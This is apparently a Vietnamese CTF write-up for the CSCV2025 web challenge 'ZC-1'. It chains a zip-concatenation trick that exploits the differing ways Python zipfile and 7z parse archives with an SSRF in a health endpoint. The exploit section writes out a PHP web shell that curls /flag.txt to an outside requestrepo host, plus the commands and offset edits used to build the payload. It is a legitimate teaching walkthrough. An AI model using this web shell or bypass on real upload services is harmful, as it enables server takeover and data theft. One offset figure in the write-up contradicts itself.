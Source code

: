 
+++
date = '2025-10-20'
draft = false
title = 'CSCV2025 | Web | ZC-1'
+++

# ⚔️ ZC-1

- **Category:** Web
- **Difficulty:** _
- **Author:** _
- **Description**: _
- **Resource**: _


![image](https://hackmd.io/_uploads/S1omJ7XAex.png)


# 🛰️Recon

## Tổng quan chung: 

Challenge bao gồm 2 ứng dụng web với:
- app1 là ứng dụng web Python cho phép đăng kí, đăng nhập, và upload file zip, ứng dụng được expose với port 8080
- app2 là ứng dụng web Php phục vụ cho việc giải nén là lưu trữ các file vừa upload, ứng dụng không thể truy cập từ bên ngoài mà chỉ có thể thông qua app1 hoặc từ bên trong

## Chi tiết

### App1
Ứng dụng bao gồm các endpoint sau (bỏ qua một số chi tiết không quan trọng):
- POST `/gateway/user` : cho phép người đăng kí với các trường username, password
- POST `/gateway/transport` : cho phép người dùng đã xác thực upload file zip
    - Endpoint này sử dụng thư viện `zipfile` trong python để thực hiện kiểm tra file extension của các file entry trong file zip được upload dựa trên whilelist trước khi gửi nó đến endpoint `upload.php` của app2
- GET `/gateway/health` : nhận vào param `module` cho phép người dùng kiểm tra hoạt động của các endpoint tại app2
- POST `auth/token` : thực hiện xác thực người dùng với username và password, trả vể session token (sử dụng cho việc xác thực) và refresh token

### App2
Ứng dụng bao gồm các endpoint sau
- POST `upload.php`: cho phép upload file zip (từ app1) và thực hiện giải nén file zip và lưu các file sau khi đã giải nén trong folder `upload/<user_id>`
- `health.php`: một file rỗng chỉ nhằm mục đích kiểm tra kết nối, hoạt động của app2

# 🧪 Dig & Analyze
Dựa trên cấu trúc của challenge, hệ thống cho phép upload file zip sau đó thực hiện giải nén và lưu trữ các file entry trong ứng dụng web Php (thư mục lưu trữ file không có cấu hình để ngăn việc thực thi file .php). Vậy mục tiêu challenge ở đây khả năng cao là upload web shell thông qua việc upload file zip chứa file entry nguy hiểm. 

Dựa trên mục tiêu trên, có 2 vấn đề cần giải quyết:
## 1. Làm thế nào để bypass được file extension check ở app1 -> Zip Concatenation
Trong khi app1 thực hiện kiểm tra file zip upload với thư viện `zipfile` thì app2 lại sử dụng `Archive7z\Archive7z` hay công cụ `7z` để thực hiện giải nén file zip. 

>Bạn có thể chủ động tìm hiểu thêm về cấu trúc file zip để hiểu rõ hơn bài wriuteup, bài wriueup không đi sâu vào phân tích cấu trúc file zip hay giải thích cụ thể về lỗ hổng zip concatenation

Đi vào chi tiết hơn cách mà 2 trình zip parser này hoạt động:

- **Đối với `python zipfile`**, trình đọc zip này không bắt đầu đọc từ đầu tệp mà thay vào đó, nó quét ngược từ cuối file để tìm kiếm lần lượt **End of Central Directory**,  **Central Directory**, **file entry** dựa trên offset.
    ![image](https://hackmd.io/_uploads/rkWyeumCll.png)
- **Đối với `7z`**, định dạng này đặt signature và các header của nó ở đầu tệp. Công cụ 7z bắt đầu phân tích file zip từ đầu tệp (offset = 0)
    ![image](https://hackmd.io/_uploads/SJBGg_QRgl.png)
    
-> Điểm không đồng nhất ở đây cùng với hình ảnh mô tả của challenge gợi cho tôi ý tưởng về việc tận dụng điểm khác biệt của 2 trình zip parser để tạo một file zip hợp lệ với cả 2 trình parser tuy nhiên nội dung đọc được của chúng lại khác nhau bởi cơ chế phân tích của chúng khác nhau.

Tìm hiểu thêm một vài kĩ thuật tấn công liên quan đến định dạng file Zip tôi tìm được kĩ thuật **Zip Concatenation** phù hợp với tình huống lỗ hổng này

## 2. Làm thế nào để có thể thực thi file php nếu đã upload được thành công -> SSRF
Ứng dụng app1 cho phép kiểm tra hoạt động của backend tại endpoint GET `/gateway/health`. Endpoint này nhận vào params `module`, input này được nối chuỗi vào `storage_url` mà không qua kiểm tra sàng lọc dẫn đến có thể khai thác SSRF ở đây để gọi đến file php được upload -> Thực thi thành công file .php
![image](https://hackmd.io/_uploads/HkQzR770lx.png)

# 🔥 Exploit

## Tạo payload
1. Tạo file zip an toàn chứa các file entry phù hợp với whitelist của challenge
```bash
echo helloworld > user.txt
zip user.zip user.txt >/dev/null
```
2. Tạo 7z archive chứa web shell 
```bash
echo '<?php system("curl https://w4zhdt6e.requestrepo.com/ -F \"file=@/flag.txt\"") ?>' > shell.php
7z a -t7z evil.7z shell.php >/dev/null
```
![image](https://hackmd.io/_uploads/B1Fc8jmRxe.png)


File này có kích thước là 207 bytes (0xCF bytes)

3. Chỉnh sửa payload sao cho hợp lệ với zipfile

Chúng ta sẽ thực hiện nối 2 file đơn giản bằng việc sử dụng lệnh cat
```
cat evil.zip user.zip > zipconcat.zip
```

Tuy nhiên file zip này chưa hợp lệ bởi việc thêm trước file zip một file 7z sẽ khiến offset của phần user.zip bị thay đổi, do đó cần thực hiện chỉnh sửa offset sao cho payload này hợp lệ với zipfile


Các 2 vị trí offset cần thay đổi (9D bởi thêm vào trước file này 0x9D bytes) là:
- offset tới Central Directory:
    - nằm trong phần End of Centrol directory
    - có giá trị là 4D 
    - chỉnh sửa thành `11C = 4D + CF`
- offset tới Local file Header 
    - nằm tại offset 42 tình từ đầu mỗi Central Directory
    - có giá trị là 00 
    - chỉnh sửa thành `CF = 00 + CF`

![image](https://hackmd.io/_uploads/ByUSdi7Agl.png)

Trực tiếp thay đổi offset bằng việc sử dụng hex editor

![image](https://hackmd.io/_uploads/SJzXYoXRgx.png)

```bash
cat evil.7z user.zip > zipconcat.zip
```

4. Kiểm tra file với python zipfile
![image](https://hackmd.io/_uploads/Hkxtz5XCle.png)

5. Kiểm tra file zip với 7z
Vì tập lệnh đặt tệp lưu trữ 7z ở ngay đầu tệp được kết hợp, nên các công cụ 7z sẽ coi tệp được kết hợp như một tệp lưu trữ 7z bình thường và trích xuất nội dung 7z (tệp PHP trong ví dụ của bạn) mà không cần động đến các cấu trúc ZIP được thêm vào phía dưới
![image](https://hackmd.io/_uploads/BJcpMcQRxg.png)
Mặc dù có thông báo lỗi bởi 7z phát hiện còn các bytes ở cuối file nhưng payload vẫn được giải nén thành công
![image](https://hackmd.io/_uploads/r18ZQ5X0ee.png)

## Thực hiện tấn công
Tạo tài khoàn người dùng và lấy Authorization token (JWT):

![image](https://hackmd.io/_uploads/rycWGimRlg.png)


![image](https://hackmd.io/_uploads/H1i1zjQRxe.png)


Thực hiện upload file payload vừa tạo với Authorization header chứa token vừa lấy được

![image](https://hackmd.io/_uploads/ryTOMjmAex.png)


Thực hiện SSRF thể thực thi file php đã upload, tuy nhiên cần xác định được vị trí của file trên server

![image](https://hackmd.io/_uploads/Byhx3qmRxl.png)

File sau khi extract được lưu tại thư mục `upload/<user_id>`, chúng ta có thể dễ dàng tìm được user id trong JWT token

![image](https://hackmd.io/_uploads/r1lafjmCee.png)

Thực hiện SSRF

![image](https://hackmd.io/_uploads/SkFocoQRxx.png)

Mặc dù request trả về "ERR" nhưng chúng ta vẫn thành công lấy được flag

![image](https://hackmd.io/_uploads/r1wxjo70el.png)


# 🏆 EXP
-> Zip Concatenation


